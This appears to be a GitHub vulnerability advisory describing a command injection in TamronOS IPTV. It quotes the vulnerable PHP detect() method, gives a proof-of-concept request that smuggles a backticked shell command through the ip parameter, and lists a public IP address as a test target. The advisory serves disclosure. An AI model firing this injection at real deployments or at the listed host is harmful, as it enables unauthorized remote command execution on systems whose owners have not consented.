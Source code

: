 # Tamronos-iptv-detect-rce.md

The TamronOS IPTV system has command execution vulnerabilities

official website：http://www.tamronos.com/

## Vulnerability Details

The detect() method in the `iptv/Controllers/MptsController.php` file does not perform filtering verification on the `$_GET['address']` , `$_GET['ip']` passed in by the user. Instead, it is directly passed into function shell_exec() and can be used `` Truncating the command resulted in command injection.

![detect](https://github.com/yuxianzi/Tamronos-iptv-CVE/blob/main/png/detect.jpg)

Code:
```
    public function detect(){

        $file = '/tmp/mptsdetect.log';
        Command::rm($file);
        $cmd = sprintf('/usr/bin/sudo /usr/bin/dvblast -D %s/udp/ifaddr=%s >null 2>%s &', $_GET['address'], $_GET['ip'], $file);
        shell_exec($cmd);
....
```
Access the /api/mpts/detect path to call the detect() method


## Recurrence vulnerability

Test version : TamronOS IPTV 8.6.3 、  TamronOS IPTV/VOD系统 v5


request 
```
/api/mpts/detect?address=aaaa&ip=`touch+/cgi/public/js/aaa.txt`
```
![request_detect](https://github.com/yuxianzi/Tamronos-iptv-CVE/blob/main/png/request_detect.jpg)

http://localhost.com/js/aaa.txt

![testok](https://github.com/yuxianzi/Tamronos-iptv-CVE/blob/main/png/testok.jpg)


Test url
```
http://103.95.24.37/
```
